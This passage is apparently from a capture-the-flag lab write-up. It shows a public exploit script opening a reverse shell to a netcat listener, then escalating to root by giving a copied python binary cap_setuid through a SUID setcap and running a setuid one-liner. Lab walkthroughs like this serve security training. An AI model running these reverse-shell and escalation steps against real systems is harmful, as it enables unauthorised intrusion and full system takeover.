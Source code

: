 - Command: `python2 49613.py`


```shell
geobour98@kali:~$ python2 49613.py
sending payload ...
reverse shell should connect within 5 seconds
```

Before running it, open a netcat listener on `443` port.


```shell
geobour98@kali:~$ nc -lvnp 443
connect to [10.8.200.50] from (UNKNOWN) [10.10.235.134] 60890
python3 -c 'import pty;pty.spawn("/bin/bash")'
annie@desktop:/home/annie$ id
uid=1000(annie) gid=1000(annie) groups=1000(annie),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
annie@desktop:/home/annie$ cat user.txt
THM{[REDACTED]}
```

Now we are the user `annie` and can read the user.txt flag.

## Privilege Escalation

Download `linpeas.sh` from <a href="https://github.com/carlospolop/PEASS-ng/releases/tag/20220821" target="_blank">PEASS-ng Github page</a> and transfer it to the victim machine.

```shell
annie@desktop:/home/annie$ chmod +x linpeas.sh
annie@desktop:/home/annie$ ./linpeas.sh
[REDACTED]
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root 10K Nov 16  2017 /sbin/setcap (Unknown SUID binary)
[REDACTED]
```

There is an interesting SUID `/sbin/setcap`. It is used to assign or remove capabilities. We can use it to assign capabilities to `/home/annie/python3.6` which will be a copy of /usr/bin/python3.6.


```shell
annie@desktop:/home/annie$ cp /usr/bin/python3.6 .
annie@desktop:/home/annie$ setcap cap_setuid+ep /home/annie/python3.6
annie@desktop:/home/annie$ getcap -r / 2>/dev/null
/home/annie/python3.6 = cap_setuid+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
annie@desktop:/home/annie$ ./python3.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@desktop:/home/annie# id
uid=0(root) gid=1000(annie) groups=1000(annie),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
root@desktop:/root# cat root.txt
THM{[REDACTED]}
```
